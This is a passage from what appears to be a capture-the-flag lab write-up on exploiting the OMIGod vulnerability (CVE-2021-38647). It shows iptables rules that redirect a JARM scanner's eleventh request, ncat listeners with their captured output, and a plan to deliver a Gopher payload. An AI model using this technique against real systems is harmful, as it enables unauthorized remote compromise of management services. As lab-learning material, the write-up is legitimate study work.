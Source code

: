 ### CVE-2021-38647
- The port 5985 has Microsoft Open Management Infrastructure running we can exploit this service using [CVE-2021-38647](https://nvd.nist.gov/vuln/detail/CVE-2021-38647) and there is also a [POC](https://github.com/horizon3ai/CVE-2021-38647) for this. But the POC just sends POST request to 5985 (Without TLS) or to 5986 (TLS included)
- Vulnerable part of this application is, Usually JARM sends 10 requests to verify and generate signature this part is known to us but here when the listener is malicious (i.e ismalicious=true) then JARM sends one extra request which is the 11th request. If we could get that request on listener then we could potentially modify it to use the exploit OMIGod(CVE-2021-38647).
- To achieve this we need to modify the Ip tables rules as proxy chains doesn't support this level of precision
- Lets flush all the previous rules in the IP tables
```bash
sudo iptables -t nat -F
```
- Then add this rule to redirect the 11th request from `443` to port `8443`
```bash
sudo iptables -I PREROUTING -t nat -p tcp --dport 443 -m statistic --mode nth --every 11 --packet 10 -j REDIRECT --to-port 8443
```
#### Preparing the stage
- To test this lets open two listeners, one on port `443` other on `8443`
```bash
ncat --ssl -lnvp 443
```
- for port `8443`
```bash
ncat -ssl -lnvp 8443
```
- I used `fetch` endpoint on my IP, and this worked very well 
- On port `443`
```
❯ ncat --ssl -lnvp 443 
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5B1D F737 C43E 3686 B058 EB4F 6C11 40B8 94DA 6CAD
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.117:56524.
Ncat: Failed SSL connection from 10.10.11.117: error:0A000126:SSL routines::unexpected eof while reading

```
- Redirected 11th request from  port `443` to `8443`
```
❯ ncat --ssl -lnvp 8443
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 0B19 D1FA 27A0 86F1 D1AC 874E D599 8BF0 9DD1 9DD0
Ncat: Listening on [::]:8443
Ncat: Listening on 0.0.0.0:8443
Ncat: Connection from 10.10.11.117:56544.
GET / HTTP/1.1
Host: 10.10.14.18
User-Agent: curl/7.74.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive

NCAT DEBUG: SSL_read error on 5: error:00000001:lib(0)::reason(1)
```
- Now we can exploit this using Gopher protocol. I have used this protocol before when doing Travel box, basically this protocol uses no headers thus perfect for delivering payloads